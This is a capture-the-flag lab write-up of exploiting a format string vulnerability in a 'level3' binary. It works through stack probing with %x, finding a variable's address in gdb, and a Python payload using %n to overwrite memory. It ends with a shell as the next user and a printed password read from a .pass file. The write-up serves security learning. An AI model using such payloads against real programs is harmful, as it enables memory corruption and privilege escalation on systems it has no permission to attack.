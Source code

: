 ### Download binary
``scp -P4242 level3@192.168.31.170:/home/user/level3/level3 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)
``fgets`` is size protected to prevent buffer overflow, buffer's size is 520, the limit is set to 512.
A printf() is called directly with our input, without string format, with research we find that we can exploit this, it's called **format string vulnerability**.
Some option of printf (%x, %n) can be used to dump the content of the stack or even to write anywhere anything in the memory.
The other thing that we find is that **if we put the number 64 inside the variable m, we get our flag**.

----

### Building the payload

``gdb ./level3``
``(gdb) run``
>Starting program: /home/user/level3/level3

We start it simple, here is our first payload, to find where our input is stocked in the stack :

``AAAA.%x.%x.%x.%x``

It simply print 4 A and then print the content of 4 adresses on top of the stack. And we got this output :

>AAAA.200.b7fd1ac0.b7ff37d0.41414141

The first argument is our 4 A and after that we got 200 (a number that is used in the program early on) then 2 adresses and then 41414141, interstingly enough 41 is the hexa representation of A.
**We conclude that this fourth argument is the pointer to our first string.**

The next step is to find the adress of m, as usual with gdb.

``(gdb) info variable``
>All defined variables:
[...]
0x0804988c  m

After that we will build this payload :

**M ADRESS + FILLING CHAR + MEMORY OF M IN STACK + %n**

Let explain it a little bit.
The first block is the adress of m that we just find.
After that theres is filling chars.
And finaly we use the %n to put the number of char that we've allready printed to an address, in this case the fourth adress on the stack, the one that stored 41414141.
Because we write the adress of m in the begining of our string, this will write 64 (the number of char we printed = 4 for adress + 60 filling char) inside m.

The payload is :
``python -c "print '\x8c\x98\x04\x08' + 'a'*60 + '%4\$n'" > /tmp/payload``

----

#### Getting the flag

``cat /tmp/payload - | ./level3``
>�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!

``whoami``
>level4

``cat /home/user/level4/.pass``
>b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
